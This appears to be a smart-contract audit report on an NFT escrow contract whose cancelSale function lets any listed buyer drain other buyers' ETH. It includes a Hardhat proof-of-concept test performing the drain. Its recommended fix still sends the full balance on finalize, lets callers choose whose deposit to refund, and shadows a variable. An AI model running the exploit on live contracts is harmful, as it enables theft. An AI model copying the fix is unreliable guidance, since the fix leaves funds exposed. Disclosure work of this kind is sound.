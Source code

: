 # Mishandling of ETH - Findings Report

## Contest Summary
Date: April 20th 2024

## Results Summary
- High: 1
- Medium: 0
- Low: 0

## Risk Findings
High-01. Unauthorized withdrawals

## Summary
The cancelSale function allows unauthorized ETH withdrawals due to the absence of a mechanism to track who deposited funds, potentially leading to loss of funds.

## Vulnerability Details
The cancelSale and finalizeSale functions are critical to the sale process. The cancelSale function transfers the entire contract balance to either the buyer or seller based on inspection status, while the finalizeSale function completes the sale only if all approvals are met. However, the lack of tracking for deposited amounts leads to potential unauthorized withdrawals.

``` solidity
function cancelSale(uint256 _nftID) public {
        if (inspectionPassed[_nftID] == false) {
            payable(buyer[_nftID]).transfer(address(this).balance);
        } else {
            payable(seller).transfer(address(this).balance);
        }
    }

function finalizeSale(uint256 _nftID) public {
        require(inspectionPassed[_nftID]);
        require(approval[_nftID][buyer[_nftID]]);
        require(approval[_nftID][seller]);
        require(approval[_nftID][lender]);
        require(address(this).balance >= purchasePrice[_nftID]);
        isListed[_nftID] = false;
        (bool success, ) = payable(seller).call{value: address(this).balance}(
            ""
        );
        require(success);
        IERC721(nftAddress).transferFrom(address(this), buyer[_nftID], _nftID);
    }
```
## Impact
 - Scenario 1: Buyer 1 deposited 1 ETH for NFT 1, while Buyer 2 did not deposit for NFT 2. 
 - Scenario 2: Buyer 2 exploited a vulnerability to cancel the sale, risking theft from Buyer 1.

 ## POC
 ```solidity

  describe("ETH Mishandling in Cancel Sale", () => {
        describe("Failure", async () => {
            it("Check for deposit earnest", async () => {
                const nftId_1 = 1
                const nftId_2 = 2
                // Deposit for NFT 1
                const depositTx = await escrow.connect(buyer).depositEarnest(1, {
                    value: tokens(5)
                })
                await depositTx.wait()
                // Escrow balance before
                const escrowBalanceBefore = await escrow.getBalance()
                // Hacker balance before
                const hackerBalanceBefore = await hre.ethers.provider.getBalance(hacker.address)
                // Inspector passes inspection for NFT 1
                const inspectionTx1 = await escrow.connect(inspector).updateInspectionStatus(1, true)
                await inspectionTx1.wait()
                // Approve sale by buyer, seller and lender for NFT 1
                const approveTx1 = await escrow.connect(buyer).approveSale(1)
                await approveTx1.wait()
                const approveTx2 = await escrow.connect(seller).approveSale(1)
                await approveTx2.wait()
                const approveTx3 = await escrow.connect(lender).approveSale(1)
                await approveTx3.wait()
                // Lender send ETH to the contract for NFT 1
                const inspectionTx2 = await lender.sendTransaction({
                    to: escrow.address,
                    value: tokens(5)
                })
                // Mint NFT 2
                const mintTx2 = await realEstate.connect(seller).mint("https://ipfs.io/ipfs/QmTudSYeM7mz3PkYEWXWqPjomRPHogcMFSq7XAvsvsgAPS")
                await mintTx2.wait()
                // Approve NFT 2 for Escrow
                const approveTx = await realEstate.connect(seller).approve(escrow.address, 2);
                await approveTx.wait()
                // List NFT 2
                const listTransaction2 = await escrow.connect(seller).list(2, hacker.address, tokens(15), tokens(10))
                await listTransaction2.wait()
                // Hacker cancel sale for NFT 2
                const cancelTx = await escrow.connect(hacker).cancelSale(2);
                await cancelTx.wait()
                // Check Escrow balance after cancel sale   
                const escrowBalanceAfter = await escrow.getBalance()
                expect(escrowBalanceAfter).to.equal(0)
                // Hacker balance after
                const hackerBalanceAfter = await hre.ethers.provider.getBalance(hacker.address)
                expect(hackerBalanceAfter).to.be.greaterThan(hackerBalanceBefore)
                // Finalize sale for NFT 1
                await expect(escrow.connect(seller).finalizeSale(1)).to.be.revertedWith("Escrow: Insufficient balance")
            })
        })
 ```

 ## Tools Used
 Sublime, Hardhat

## Recommendations
Add a new mapping: 
- mapping(`address` => `uint256`) public `deposited`

```solidity
function finalizeSale(uint256 _nftID) public {
        uint256 escrowAmount = escrowAmount[_nftID];
        address buyerAddress = buyer[_nftID];
        uint256 depositedAmount = deposited[buyerAddress];
        
        // Ensure buyer has enough funds deposited
        require(deposited[buyerAddress] >= escrowAmount, "Escrow: Insufficient deposited funds");

        // NFT passed inspection
        require(inspectionPassed[_nftID], "Escrow: NFT inspection not passed");

        // Buyer approval required
        require(approval[_nftID][buyer[_nftID]], "Escrow: Buyer not approved");

        // Seller approval required
        require(approval[_nftID][seller], "Escrow: Seller not approved");

        // Lender approval required
        require(approval[_nftID][lender], "Escrow: Lender not approved");

        // Contract balance insufficient for purchase
        require(address(this).balance >= escrowAmount, "Escrow: Insufficient balance");

        // Transfer funds to the seller
        isListed[_nftID] = false;
          (bool success, ) = payable(seller).call{value: address(this).balance}(
            ""
        );
        require(success);

          // Reset deposited amount
        deposited[buyerAddress] = 0;

        // Transfer the NFT ownership to the buyer
        IERC721(nftAddress).transferFrom(address(this), buyerAddress, _nftID);
    }

function cancelSale(address _buyer, uint256 _nftID) public {    
        uint256 refundAmount = deposited[_buyer];
        require(refundAmount > 0, "Escrow: No deposited amount to finalize the sale");
        deposited[_buyer] = 0;

        if (inspectionPassed[_nftID] == false) {
            payable(buyer[_nftID]).transfer(refundAmount);
        } else {
            payable(seller).transfer(refundAmount);
        }
    } 
```